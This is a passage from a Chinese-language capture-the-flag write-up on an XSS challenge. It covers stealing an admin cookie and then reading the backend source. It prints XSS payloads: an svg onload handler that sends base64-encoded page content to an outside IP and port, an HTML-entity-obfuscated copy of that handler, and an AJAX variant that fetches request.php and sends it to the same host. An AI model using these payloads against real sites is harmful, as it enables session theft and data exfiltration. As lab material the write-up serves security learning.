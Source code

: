 src属性已经禁用js伪协议了。。之前也不知道被哪篇文章误导了，坑了我好久，果然实践才是检验真理的唯一标准。

其实这也是我屡试不爽的payload
成功打到cookie
[![image](http://www.northity.com/img/9_2.jpg)](http://www.northity.com/img/9_2.jpg)

```
FLAG{Sometimes, XSS can be critical vulnerability <script>alert(1)</script>}
```

然后有个提示，`FLAG_2=IN_THE_REDIS`
应该是flag2在redis中的意思

先用admin的cookie尝试登陆一下
发现只允许local
[![image](http://www.northity.com/img/9_3.jpg)](http://www.northity.com/img/9_3.jpg)
改XFF是绕不过去的，而且这种设计XSS题一般思路都是用XSS去读源码
有点类似网鼎高校组那一场
直接尝试读一下后台的源码

```
<svg/onload="document.location='http://123.207.14.45:7777/?'+btoa(document.body.innerHTML)">
```

同理直接编码

```
<svg/onload="&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x3D;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x32;&#x33;&#x2E;&#x32;&#x30;&#x37;&#x2E;&#x31;&#x34;&#x2E;&#x34;&#x35;&#x3A;&#x37;&#x37;&#x37;&#x37;&#x2F;&#x3F;&#x27;&#x2B;&#x62;&#x74;&#x6F;&#x61;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x62;&#x6F;&#x64;&#x79;&#x2E;&#x69;&#x6E;&#x6E;&#x65;&#x72;&#x48;&#x54;&#x4D;&#x4C;&#x29;
">
```

[![image](http://www.northity.com/img/9_4.jpg)](http://www.northity.com/img/9_4.jpg)


AJAX读取源码

这里就必须用AJAX读源码了，和网鼎一样的套路

```
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://123.207.14.45:7777/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```

**扩展攻击面-》SSRF层面**
